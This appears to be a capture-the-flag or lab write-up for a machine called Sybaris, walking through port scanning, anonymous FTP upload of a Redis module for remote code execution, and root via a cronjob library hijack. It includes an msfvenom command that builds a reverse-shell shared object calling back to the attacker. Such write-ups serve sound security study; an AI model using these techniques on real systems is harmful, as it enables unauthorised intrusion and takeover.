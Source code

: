 # Sybaris

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.93 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 20:45 +08
Nmap scan report for 192.168.243.93
Host is up (0.17s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
6379/tcp  open   redis
```

I ran a detailed scan to enumerate further:

```
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.231
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
6379/tcp open  redis   Redis key-value store 5.0.9
```

The most interesting thing was the Redis instance because it was a version that was vulnerable to the Redis Module exploit.&#x20;

### Rabbit Holes

Port 80 was full of Rabbit Holes, nothing was useful about it.

### FTP Creds --> RCE

The FTP service allowed for anonymous access:

```
$ ftp 192.168.243.93
Connected to 192.168.243.93.
220 (vsFTPd 3.0.2)
Name (192.168.243.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
226 Directory send OK.
```

Not sure what this directory is used for. The Redis RCE exploit requires that we put a shared object file within the file system, then use Redis's `MODULE LOAD` to run it.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

I transferred this file over to the `pub` directory and tried to find the correct directory to load my module. After a bit of guessing, I found that we uploaded `module.so` to `/var/ftp`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can then easily get a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Library Hijack

I ran a `linpeas.sh` scan, and found this `cronjob` running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (12).png" alt=""><figcaption></figcaption></figure>

Turns out that there are some directories that we can write to within the `LD_LIBRARY_PATH`, and the cronjob running `log-sweeper` doesn't have a `utils.so` specified:

```
[pablo@sybaris ~]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007fff4439a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007fe90fd0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe9100dc000)
```

This was pretty easy to exploit. Just generate this reverse shell:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf-so > utils.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
```

Then transfer it to the `/usr/local/lib/dev` directory and wait. Be sure to run `chmod 777 utils.so` on it just in case. The cronjob runs every minute, so the connection takes about 30 seconds to appear:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Rooted!
